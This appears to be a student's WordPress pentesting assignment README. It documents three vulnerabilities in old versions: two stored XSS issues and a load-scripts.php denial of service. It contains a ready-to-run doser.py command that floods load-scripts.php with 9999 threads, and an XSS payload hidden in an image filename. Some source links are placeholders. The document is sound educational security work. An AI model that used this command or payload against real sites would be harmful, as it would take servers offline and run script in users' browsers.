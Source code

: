 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Legacy Theme Preview Cross-Site Scripting (XSS)
  - [ ] Summary: One of the callback functions remove the potential for JavaScript to be executed, it removes "onclick='", but continues to run the request without the "onclick='" function. We can use "onmouseover" after the "onclick=" function is removed, allowing us to use XSS. You do have to be an admin to be able to run this, but if you can get the admin to click a malicious link beforehand, it will work.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: https://youtu.be/K7hTDUGLYe8
  - [ ] Steps to recreate: Once you have your script ready, post it as a comment on any post on a WordPress page. Once the comment is posted, either scroll up for the script to be activated, or refresh the page and it will activate. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: WordPress contains a feature that lets a browser load multiple JS/CSS files with a single script (uses load-scripts.php)
                 To prevent DoS attacks, WordPress has protected against a user asking for the same module multiple times in a single                      request. However, if you ask it to load ALL the JS modules, it proceeds with the request, with a response that is 4 MB                    data sent in 2.2 seconds. A python script is written to repeat this requst of ALL the modules, and results in a DoS                        causing the server to become unreachable. 
    - Vulnerability types: DoS - Denial of Service
    - Tested in version: 4.2
    - Fixed in version: Unpatched
  - [ ] GIF Walkthrough: https://youtu.be/O4s8cxdzHQs
  - [ ] Steps to recreate: Download the python script from https://github.com/quitten/doser.py, and run the following command: 
  ```python doser.py -g 'http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999``` The script is now running, and the WordPress site should be unreachable. If you want to stop the script, either close the terminal window or terminate the script using CTRL + C.
  - [ ] Affected source code:
    - [Link 1](https://wpdistillery.vm/wp-admin/load-scripts.php)
3. WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: This is a stored XSS exploit which uses an image. You insert JavaScript into the name of a JPG file, upload it to your WordPress media library, open up the attachment page of the picture, and the script runs once the broken image icon is clicked. The reason you have to save the image to your library and open it up is because it is a stored XSS exploit. The script only runs once someone clicks the broken image link.
    - Vulnerability types: Stored XSS
    - Tested in version: 4.0
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: https://youtu.be/XSD3R5st3_M
  - [ ] Steps to recreate: You can download any image as a jpg, make the filename ```name<img src=a onclick=alert('string')>.jpg```. Once you have this file downloaded, log onto WordPress as an admin, click "Media" on the left side of the page, and add the picture you made earlier to your library. Click the library again to see your picture uploaded, click on it, click "view attachment page" at the bottom of the page, click the broken image icon, and your XSS will pop up on the screen.  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

Exploit 2 Python Script - https://github.com/quitten/doser.py

## Resources

- [Vagrant](https://www.vagrantup.com/)
- [Exploit 3 Explanation](https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html)
- [Exploit 2 Explanation]
(https://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)
- [Exploit 1 Explanation]
(https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)

GIFs created with [Giphy](https://itunes.apple.com/us/app/giphy-capture-the-gif-maker/id668208984?mt=12).

## Notes

Fun assignment, the exploits did take some trial and error but they did end up working for me. 
## License

    Copyright [2018] [Sevak Papanyan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
